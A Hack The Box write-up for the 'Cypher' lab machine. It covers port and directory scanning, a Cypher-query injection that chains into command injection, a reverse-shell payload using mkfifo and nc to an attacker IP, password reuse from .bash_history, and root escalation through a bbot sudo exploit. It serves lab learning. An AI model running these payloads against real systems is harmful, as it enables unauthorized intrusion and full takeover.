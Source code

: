 ```yaml
---
name: Cypher
difficulty: medium
os: linux
platform: htb
date: 2025/07/03

img: https://labs.hackthebox.com/storage/avatars/765cd4be6f3a366ca83c7ea60bbcaaa8.png
---
```


## Enumeration

### Port Scan

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.57 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We will add `cypher.htb` to our `/etc/hosts` file to access the web service:

```bash
echo "10.10.11.57 cypher.htb" | sudo tee -a /etc/hosts
```

We try to get more information about the open ports using service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV -vvv 10.10.11.57 -o targeted
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be68db828e6332455446b7087b3b52b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMurODrr5ER4wj9mB2tWhXcLIcrm4Bo1lIEufLYIEBVY4h4ZROFj2+WFnXlGNqLG6ZB+DWQHRgG/6wg71wcElxA=
|   256 e55b34f5544393f87eb6694cacd63d23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqadcsjXAxI3uSmNBA8HUMR3L4lTaePj3o6vhgPuPTi
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We use `gobuster` to enumerate directories and files in the web application:

```bash
gobuster dir -u http://cypher.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cypher.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 4986]
/api                  (Status: 307) [Size: 0] [--> /api/docs]
/demo                 (Status: 307) [Size: 0] [--> /login]
/index                (Status: 200) [Size: 4562]
/index.html           (Status: 200) [Size: 4562]
/login                (Status: 200) [Size: 3671]
/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

We find a .jar file in the `/testing` directory, which is a Java application

We can use `http://www.javadecompilers.com/` to decompile the .jar file and analyze its contents.

We find a procedure called `custom.getUrlStatusCode` that takes a URL as an argument and returns the HTTP status code of that URL. This procedure is vulnerable to command injection, allowing us to execute arbitrary commands on the server.

We can exploit this vulnerability by injecting a command that will call the `custom.getUrlStatusCode` procedure with a URL that contains a command injection payload. For example, we can use the following payload:
```
{
  POST /api/auth HTTP/1.1


  "username":"a' RETURN h.value as hash UNION CALL custom.getUrlStatusCode(\"http://localhost; sleep 2; #\") YIELD statusCode as hash RETURN hash //",
  "password":"admin"
}
```

We use `nc` to listen for incoming connections on port 4444 and then send the payload to the server:

```bash
nc -lvnp 4444
```

We use `nc` to connect to the reverse shell on the server:

```
{
  "username":"a' RETURN h.value as hash UNION CALL custom.getUrlStatusCode(\"http://localhost; sleep 4; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.90 4444 >/tmp/f; #\") YIELD statusCode as hash RETURN hash //",

  "password":"admin"
}
```

## User Exploitation

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We can get some credentials in .bash_history:

```
cU4btyib.20xtCMCXkBmerhK
```
We try logging in via SSH with the username `graphasm` and the password `cU4btyib.20xtCMCXkBmerhK` and it works:

```bash
ssh graphasm@cypher.htb
```

We can find the user flag in the home directory:

```bash
cat /home/graphasm/user.txt
```

```
user flag value
```

## Root Exploitation

We can check if user `graphasm` has sudo privileges:

```bash
sudo -l
```

```
User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

We can see that user `graphasm` can run the command `/usr/local/bin/bbot` as root. We can check what is this utility:
```bash
cat /usr/local/bin/bbot
```

We see its calling a python library called `bbot` and we can check the version of the library:

```bash
sudo /usr/local/bin/bbot -v
```
```
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc
```

We can see that the version is `2.1.0.4939rc`, which is vulnerable to Local Privilege Escalation.

We use `https://github.com/Housma/bbot-privesc` repository to exploit the vulnerability:

```bash
git clone https://github.com/Housma/bbot-privesc.git
cd bbot-privesc
sudo /usr/local/bin/bbot -t dummy.com -p preset.yml --event-types ROOT
```

A privilege shell is spawned as root. We can read the root flag:

```bash
cat /root/root.txt
```

```
root flag value
```

## Conclusion
This writeup details the steps taken to exploit the Cypher machine on Hack The Box, from initial enumeration to privilege escalation and obtaining both user and root flags. The process involved web application exploitation, command injection, and leveraging a known vulnerability in the `bbot` utility to gain root access.
This writeup serves as a guide for those looking to understand the exploitation techniques used in this machine

